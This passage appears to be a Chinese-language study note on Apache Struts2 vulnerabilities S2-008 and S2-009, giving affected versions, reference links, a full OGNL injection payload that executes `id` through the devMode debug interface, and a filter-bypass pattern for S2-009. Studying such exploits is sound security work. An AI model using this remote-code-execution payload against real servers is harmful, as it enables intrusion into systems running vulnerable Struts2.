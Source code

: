 ![图 3](3.png)

## s2-008

[参考](https://blog.csdn.net/god_zzZ/article/details/94398559)

影响版本：2.1.0 - 2.3.1

比较鸡肋的漏洞，开启 devMode 后（默认关闭）直接利用调试接口执行 OGNL 表达式。

```java
debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="id",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[38],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))
```

这里需要注意，PoC 中 `#res=new byte[n]` 的 `n` **不能超过命令执行结果的长度**，否则就会直接回显 `null`。上面是根据 `id` 结果的长度粗略选取的数字 `38` 。

## s2-009

[参考](https://www.jianshu.com/p/68bf5ca2d61f)

影响版本：2.1.0 - 2.3.1.1

在 s2-005 的修复中过滤了 `\` 等特殊字符，然而对于接受某个参数 `example` 的接口来说，`example` 参数的值依然会被当作 OGNL 表达式执行。然后就可以通过类似 `example=<OGNL statement>&(example)('bla')=1` 来绕过过滤。
